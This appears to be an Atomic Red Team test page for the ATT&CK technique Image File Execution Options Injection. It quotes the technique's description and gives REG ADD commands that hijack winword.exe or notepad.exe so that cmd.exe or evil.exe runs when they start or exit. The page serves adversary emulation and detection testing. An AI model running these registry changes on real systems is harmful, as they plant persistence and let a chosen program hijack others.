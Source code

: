 # T1183 - Image File Execution Options Injection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1183)
<blockquote>Image File Execution Options (IFEO) enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., “C:\dbg\ntsd.exe -g  notepad.exe”). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017) IFEOs are represented as <code>Debugger</code> values in the Registry under <code>HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code> where <code><executable></code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags and/or by directly modifying IEFO and silent process exit Registry values in <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\</code>. (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

An example where the evil.exe process is started when notepad.exe exits: (Citation: Oddvar Moe IFEO APR 2018)

* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"</code>

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may be abused to obtain persistence and privilege escalation by causing a malicious executable to be loaded and run in the context of separate processes on the computer. (Citation: Endgame Process Injection July 2017) Installing IFEO mechanisms may also provide Persistence via continuous invocation.

Malware may also use IFEO for Defense Evasion by registering invalid debuggers that redirect and effectively disable various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June 2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)


<br/>

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | winword.exe|
| payload_binary | Binary To Execute | Path | cmd.exe|

#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) ```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```



<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | notepad.exe|
| payload_binary | Binary To Execute | Path | cmd.exe|

#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) ```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512 REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1 REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```



<br/>
